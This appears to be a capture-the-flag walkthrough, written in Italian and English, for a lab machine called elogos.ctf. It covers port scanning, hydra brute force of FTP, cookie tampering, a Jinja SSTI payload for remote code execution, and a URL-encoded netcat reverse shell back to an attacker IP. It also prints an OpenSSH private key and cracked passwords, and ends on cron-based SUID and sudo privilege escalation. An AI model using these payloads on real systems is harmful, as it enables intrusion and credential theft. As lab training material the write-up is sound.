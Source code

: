 ### **PORT SCANNING**
```bash
nmap -sT -T5 --min-rate=10000 -p- 192.168.86.129
```
![[Pasted image 20231011153211.png]]

### **PATH 1 - FTP**
Go to http://elogos.ctf/about-us and take note of the listed username (email)
![[Pasted image 20231011153524.png]]

After that launch a brute force with hydra on ftp to gain access
```
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ftp://elogos.ctf
```
==Creds = j.brock:princess==
ls -la and take the private ssh key. Crack it.
```
ssh2john id_rsa > hash
```
![[Pasted image 20231011153933.png]]![[Pasted image 20231011154601.png]]

Log in as j.brock via ssh
### **PATH 2 - WEB**
*Cookie Bypass*
http://elogos.ctf/login
Use inspect to retrieve the cookie and decode it.
![[Pasted image 20231011154838.png]]
Change logged in to true and save it in the browser
*HardCoded Credentials*

*Web to www-Data*
![[Pasted image 20231011154905.png]]
Use the "user=" parameter to inject the ssti payload and achieve a RCE
```python
{{request.application.__globals__.__builtins__.__import__('os').popen("id").read()}}
```
Usa la reverse shell url encodata
```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.86.130%204444%20%3E%2Ftmp%2Ff
```
![[Pasted image 20231011155050.png]]
Now use the rce to obtain a reverse shell
![[Pasted image 20231012163853.png]]
*www-Data to John*
intera home j.brock leggibile da gruppo web-developer di cui www-Data fa parte
![[Pasted image 20231012164214.png]]
catta id_rsa
``` bash
cat /home/j.brock/.ssh/id_rsa
```

```id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
qMfG6JM2YKLsLYHqT9T+dgZJqGc=
-----END OPENSSH PRIVATE KEY-----
```
e craccalo usando ssh2john
```
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
==Password = spaghetti==

Entra su ssh come j.brock
==ricorda chmod 400 su id_rsa==
### **j.brock to m.hack**
Scarica linpeas ed avvialo
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/linpeas.sh
vai in /scripts e crea un file random.py
```
![[Pasted image 20231012165416.png]]
Vai in /scripts e crea un file random.py
```python
import os
os.system('cp /bin/bash /scripts/; chmod +s /scripts/bash')
```
![[Pasted image 20231012164950.png]]
Aspetta che runna tramite cronjob ed esegui il bash con suid creato
![[Pasted image 20231012165448.png]]

### **m.hack to r.silva**
Nella home di m.hack c'è un file keepass kdbx.
Usa keepass2john per craccarlo
```
keepass2john mypasswords.kdbx > hash

```
==Password = ihatehackers==

all'interno del keepass c'è la password per l'utente
==Password = JVQe4hUMqvCry4Gz996!n3==

Puoi fare
```bash
su m.hack
```
per stabilizzare la shell. Poi fai
```bash
sudo -l
```
![[Pasted image 20231012170444.png]]
crea il path ed il binario
```bash
mkdir .updates
cd .updates
mkdir tmp
cd tmp
vim update_binary
```
```update_binary
#/bin/bash

/bin/bash -p
```
ed esegui il sudo come r.silva
```
`
```
